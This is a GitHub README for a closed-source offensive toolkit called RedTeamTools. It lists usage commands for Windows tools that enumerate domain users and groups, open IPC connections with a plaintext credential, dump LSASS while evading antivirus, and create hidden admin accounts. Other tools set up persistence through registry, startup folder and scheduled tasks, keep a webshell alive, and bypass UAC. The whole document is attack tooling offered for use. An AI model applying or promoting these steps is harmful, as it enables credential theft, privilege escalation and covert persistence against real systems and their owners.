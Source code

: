 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)
## 16Use The Registry To Bypassuac(BypassAV)
```
Now this program have six plans to bypassuac in win10 maybe can use in win7(I don't have win7 machine to test)
you can easy to use, such as 16x64.exe 1or2or3or4or5or6 cmd.exe
16x64.exe 5 cmd.exe
```
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/1.png)
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/2.png)

